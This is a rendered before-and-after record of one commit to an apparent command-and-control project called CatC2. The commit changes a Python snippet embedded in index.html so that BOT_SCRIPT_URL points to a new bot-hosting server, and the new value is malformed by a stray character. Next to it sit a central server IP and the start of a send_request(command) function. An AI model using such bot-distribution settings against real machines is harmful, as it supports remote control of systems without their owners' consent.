

Before and after one commit to dotbatmann/CatC2, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 77-618 px from the top of the page, without its empty margins (208-1071 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update BOT_SCRIPT_URL to new server address

```diff
--- a/index.html
+++ b/index.html
@@ -98,7 +98,7 @@ import subprocess
 
 # Define the central server URL
 CENTRAL_SERVER_URL = '192.168.8.119'
-BOT_SCRIPT_URL = 'http://your-server-address:5000/bot.py'
+BOT_SCRIPT_URL = 't http://dotbatman.bot.io/'
 
 def send_request(command):
     try:
```
